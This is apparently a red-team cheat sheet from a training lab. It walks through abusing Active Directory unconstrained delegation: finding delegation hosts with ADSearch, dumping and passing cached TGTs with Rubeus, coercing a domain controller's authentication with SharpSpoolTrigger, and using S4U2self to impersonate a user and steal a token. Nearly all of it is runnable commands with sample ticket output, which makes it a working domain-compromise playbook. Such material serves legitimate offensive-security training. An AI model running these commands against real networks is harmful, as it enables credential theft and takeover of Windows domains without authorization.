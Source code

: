 # Get machines with unconstrained delegation in the Domain

```bash
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

---

# After compromising a machine on the list we can wait for a privileged account to interact with it to get the tgt cached

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```

---

# If a TGT is cached we can simply dump the ticket and pass the ticket to a proccess created by us

```bash
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
steal_token 1540

```

---

---

# We can also force computer accounts to authenticate remotely to grab their TGT and use s4U2self abuse

```bash
# Start listening with Rubeus on Web
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
# To stop monitoring use
jobs
jobkill <id>

# Use SharpSpoolTriget
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

# We should see a ticket comming by on web
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    <ticket here>

# To use this machine ticket we need to use a s4u2self technique
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=
steal_token 2664

```
